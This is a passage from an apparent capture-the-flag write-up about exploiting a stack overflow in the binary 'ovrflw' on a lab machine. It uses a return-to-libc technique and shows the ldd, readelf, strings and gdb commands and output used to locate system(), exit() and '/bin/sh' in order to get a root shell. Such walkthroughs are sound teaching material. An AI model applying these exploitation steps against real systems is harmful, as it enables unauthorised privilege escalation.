 Notice how `GNU_STACK` is not executable since it doesn't have the `X` flag enabled. This means that if we overflow the stack, we will not be able to execute code from within our buffer.
We can overcome this with a trick known as **return to libc** where we can jump to a memory address in libc and supply the necessary arguments.

For this scenario, I needed to run `system("/bin/sh")` to get a root shell. The call to `system()` is located in `/lib/i386-linux-gnu/libc.so.6` which is dynamically linked to the executable.
We can check which shared object files are dynamically linked to `/usr/local/bin/ovrflw` with the following command:

```
$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77be000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7604000)
        /lib/ld-linux.so.2 (0x800ae000)
```

We also need to find the offsets in `/lib/i386-linux-gnu/libc.so.6` that point to the `system()` and `exit()` functions with the command below:

```
$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "(system|exit)@"              
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   554: 000b84f4    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e5f0    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128b50    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  1492: 000fb480    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fbff0     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```

Here, we can see that the calls to `exit()` and `system()` are located at offsets `0x00033260` and `0x00040310` in `/lib/i386-linux-gnu/libc.so.6` respectively.

Next, we need to find a string that points to a shell since we cannot provide on in our overflow buffer. We can find such strings in `/lib/i386-linux-gnu/libc.so.6`:

```
data@october:/dev/shm$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/"
 162bac /bin/sh
 164b10 /bin/csh
```

As seen above, `/bin/sh` is located at offset 0x162bac in `/lib/i386-linux-gnu/libc.so.6`.

We can also search for `/bin/sh` with GDB:

```
$ gdb -q /usr/local/bin/ovrflw
Reading symbols from /usr/local/bin/ovrflw...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048480
(gdb) run
Starting program: /usr/local/bin/ovrflw

Breakpoint 1, 0x08048480 in main ()
(gdb) info proc map
process 1813
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /usr/local/bin/ovrflw
         0x8049000  0x804a000     0x1000        0x0 /usr/local/bin/ovrflw
         0x804a000  0x804b000     0x1000     0x1000 /usr/local/bin/ovrflw
```